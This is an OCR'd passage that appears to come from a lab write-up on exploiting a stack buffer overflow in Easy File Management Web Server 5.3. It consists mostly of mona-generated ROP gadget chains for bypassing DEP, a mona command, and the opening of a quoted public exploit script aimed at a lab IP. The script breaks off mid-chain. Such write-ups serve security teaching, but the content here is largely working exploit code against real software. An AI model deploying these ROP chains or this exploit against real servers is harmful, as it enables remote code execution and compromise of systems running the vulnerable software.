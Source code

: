 ```python
      #[---INFO:gadgets_to_set_ecx:---]
      0x76c21a87,  # POP ECX # RETN [SHELL32.dll] ** REBASED ** ASLR 
      0x7665daae,  # &Writable location [WININET.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cbfb21,  # POP EDI # RETN [ole32.dll] ** REBASED ** ASLR 
      0x768e0b8c,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x76ee63ed,  # POP EAX # RETN [SHELL32.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x75cd10ef,  # PUSHAD # RETN [ole32.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
```

### Attempt 2

We ran the mona command:
`!mona rop -rva - cbp " x00" -m ImageLoad.dll,SSLEAY32.dll,LIBEAY32.dll,fmws.exe`
we got a rop chain. but we had to add some instructions. It involved
setting the edx register to it's coorect value and then, unsuccessfully,
crafting the jmp esp value into the eax register. The code can be found
in the listing below. We are very close to solving the last kinks but
were unable due to time constraints.

```python
#!/usr/bin/python
# Exploit Title: Easy File Management Web Server v5.3 - USERID Remote Buffer Overflow (ROP)
# Version:       5.3
# Date:          2014-05-31
# Author:        Julien Ahrens (@MrTuxracer)
# Homepage:      http://www.rcesecurity.com
# Software Link: http://www.efssoft.com/
# Tested on:     WinXP-GER, Win7x64-GER, Win8-EN, Win8x64-GER
#
# Credits for vulnerability discovery:
# superkojiman (http://www.exploit-db.com/exploits/33453/)
#
# Howto / Notes:
# This scripts exploits the buffer overflow vulnerability caused by an oversized UserID - string as
# discovered by superkojiman. In comparison to superkojiman's exploit, this exploit does not 
# brute force the address of the overwritten stackpart, instead it uses code from its own 
# .text segment to achieve reliable code execution.

from struct import pack
import socket,sys
import os
 
host="10.0.2.15"
port=80

def create_rop_chain(base_ImageLoad_dll):
	# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	  #[---INFO:gadgets_to_set_ebx:---]
	  base_ImageLoad_dll + 0x00018a3a,  # POP EBX # RETN [ImageLoad.dll] 
	  0xffffffff,                       #  
	  base_ImageLoad_dll + 0x0001f6da,  # INC EBX # ADD AL,83 # RETN [ImageLoad.dll] 
	  base_ImageLoad_dll + 0x0001f6da,  # INC EBX # ADD AL,83 # RETN [ImageLoad.dll] 
	  #[---INFO:gadgets_to_set_edx:---]
	  base_ImageLoad_dll + 0x0001a857,	#(RVA : 0x0001a857) : # POP EBX # RETN    ** [ImageLoad.dll] **   |   {PAGE_EXECUTE_READ}
```